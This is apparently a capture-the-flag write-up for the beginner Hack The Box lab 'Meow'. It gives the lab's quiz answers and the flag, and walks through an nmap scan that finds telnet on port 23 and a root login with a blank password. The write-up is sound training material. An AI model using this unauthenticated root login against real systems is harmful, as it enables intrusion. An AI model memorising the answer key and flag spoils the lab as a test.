# Meow

## Information

**Difficulty**: Very Easy  
**Tags**: Telnet; Network; Protocols; Reconnaissance; Weak Credentials; Misconfiguration.

## Flags

1. What does the acronym VM stand for?
   - Virtual Machine
2. What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.
   - terminal
3. What service do we use to form our VPN connection into HTB labs?
   - openvpn
4. What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?
   - tun
5. What tool do we use to test our connection to the target with an ICMP echo request?
   - ping
6. What is the name of the most common tool for finding open ports on a target?
   - nmap
7. What service do we identify on port 23/tcp during our scans?
   - telnet
8. What username is able to log into the target over telnet with a blank password?
   - root

## Solution

"_The key is a strong foundation_"

This machine is made of mainly teorical questions, but when applied in practice, we get to the flag.

First things first, let's run a nmap to see which ports are open on the machine.

```sh
$ nmap $ip

Starting Nmap 7.93 ( https://nmap.org ) at $date
Nmap scan report for $ip
Host is up (0.46s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet
```

Doing so, we get to see that on the port 23 there is a open telnet service.

```sh
$ telnet $ip 23

Trying $ip...
Connected to $ip.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

After this _cool_ ascii art, a prompt appears asking for or login, and we don't have any credentials, so let's try to login as root.

```sh
Meow login: root
```

The root user didn't have a password, so we're through. At this stage, looking at our surroundings with a list command, we get to know that there is a flag.txt file.

```sh
root@Meow:~ ls
flag.txt  snap
```

And inside it there's our flag.

```sh
root@Meow:~ cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

## Flag

b40abdfe23665f766f9c61ecba8a4c19
